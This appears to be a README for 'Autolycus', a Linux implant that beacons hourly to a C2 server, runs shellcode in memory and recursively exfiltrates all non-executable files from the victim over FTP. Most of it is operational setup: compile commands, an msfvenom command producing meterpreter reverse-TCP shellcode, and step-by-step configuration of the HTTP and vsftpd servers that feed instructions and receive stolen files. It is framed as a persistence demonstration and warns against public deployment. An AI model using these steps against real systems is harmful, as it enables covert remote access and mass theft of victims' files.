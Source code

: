 # Linux Payload: Autolycus

### Description

This is an example of a payload that can be used against a Linux based target in conjunction with the Nekrosis application. If Nekrosis is being used to demonstrate how an adversary could achieve persistence, this payload can be used to demonstrate the kind of code an adversary may deploy with their unauthorized access. This payload will call back to the C2 server once per hour to receive an instruction directive. Different instruction directives will execute different modules, providing support for fileless remote access as well as the exfiltration of all non-executable files on the victim's file system.

### Compilation

In the source code you must change all instances of "ADDRESS:PORT" with the appropriate information.

```shell [Command Line]
sudo apt install libcurl4-openssl-dev
gcc main.c -o main -s -lcurl -lpthread
```

### Configuring the C2 Server

The required C2 setup varies based on the instruction directive being used.

Supported instruction directives:
- EXEC (Execute a stub of shellcode in memory)
- COPY (Recursively exfiltrate all non executable files over FTP)

The following setup was successfully tested in Kali Linux. Both the web server and the VSFTPD server must be accessible by the target.

#### EXEC Directive:

1. Setting up the web server:

Creating the shellcode for remote access:
```shell [Command Line]
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=ADDRESS LPORT=PORT -f raw -b "\x00" >> shellcode
```
Leaving the instruction directive:
```shell [Command Line]
echo -n "EXEC" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

#### COPY Directive:

1. Setting up the VSFTPD server:

Installing VSFTPD:
```shell [Command Line]
sudo apt update && sudo apt install vsftpd
```
Creating the dedicated user:
```shell [Command Line]
sudo useradd test && sudo passwd test
```
Creating their home directory (that will be used as the local_root directory for FTP):
```shell [Command Line]
sudo mkdir /home/test && sudo chown test:test /home/test
```
The /etc/vsftpd.conf file needs to be edited to contain the following lines:
```shell [Command Line]
write_enable=YES
listen_port=[PORT]
userlist_deny=NO
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
pasv_min_port=[PORT]
pasv_max_port=[PORT]
local_root=/home/test/
```
The userlist should contain the dedicated user:
```shell [Command Line]
sudo touch /etc/vsftpd.userlist && sudo echo "test" >> /etc/vsftpd.userlist
```
Reload the service for the changes to take effect:
```shell [Command Line]
sudo systemctl restart vsftpd
```
Lastly, if this server will be running on a machine that is publicly accessible via SSH it is recommended to add the following line to /etc/ssh/sshd_config:
```shell [Command Line]
DenyUsers test
```

2. Setting up the web server:

Adding the dedicated user's credentials and the instruction directive:
```shell [Command Line]
echo -n "username" >> username.txt
```
```shell [Command Line]
echo -n "password" >> password.txt
```
```shell [Command Line]
echo -n "COPY" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

With these servers properly configured and accessible by the target the payload will have what it needs to execute the COPY directive. It is highly encouraged not to deploy this payload over the public internet particularly if there may be sensitive information on the victim.

